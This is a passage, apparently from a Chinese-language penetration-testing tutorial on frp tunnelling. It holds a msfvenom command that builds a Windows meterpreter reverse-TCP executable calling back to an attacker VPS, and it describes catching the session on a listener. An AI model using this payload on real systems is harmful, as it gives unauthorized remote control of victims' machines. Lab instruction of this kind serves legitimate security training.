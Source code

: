 用msf生成远控，端口对应攻击机设置的remote_port

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=vps-ip lport=4445 -f exe >  frpmsf.exe
```

本地攻击机监听，端口配置攻击机local_port

<img src="pictures/image-20201022101844646.png" alt="image-20201022101844646" style="zoom: 50%;" /> 

靶机执行msf远控，成功接收到了meterpreter

<img src="pictures/image-20201022102051831.png" alt="image-20201022102051831" style="zoom:50%;" /> 





# 场景四：端口转发
